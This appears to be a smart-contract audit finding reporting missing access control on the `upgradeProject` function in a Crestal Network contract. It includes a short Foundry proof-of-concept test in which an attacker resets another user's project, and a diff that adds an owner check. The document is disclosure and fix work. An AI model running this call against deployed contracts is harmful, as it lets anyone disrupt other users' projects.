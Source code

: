 Great Ruby Woodpecker

High

# LACK OF RIGHT ACCESS CONTROL TO THE `upgradeProject` function, allow any users to make  Unauthorized changes to the projects mapping/accounts.

**Description:** 
Any malicous user can reset the state of any project by calling `upgradeProject` function, causing denial of service (DoS) by invalidating existing proposal/deployment IDs. This disrupts workflows and forces legitimate users to restart their projects.
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198

**Proof of Concept:**
```solidity
   function testUpgradeProject() public {
        address ade = makeAddr("ade");
        vm.startPrank(ade);
        bytes32 projectId1 = blueprint.createProjectID();
        vm.stopPrank();
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        blueprint.upgradeProject(projectId1);
        vm.stopPrank();
    }
```

**Recommended Mitigation:** 
```diff
+   modifier onlyProjectOwner(bytes32 projectId) {
+       require(deploymentOwners[projectId] == msg.sender, "Not owner");
+       _;
+   }

+   function upgradeProject(bytes32 projectId) public onlyProjectOwner(projectId) {
-    function upgradeProject(bytes32 projectId) public {
    // ...
}
```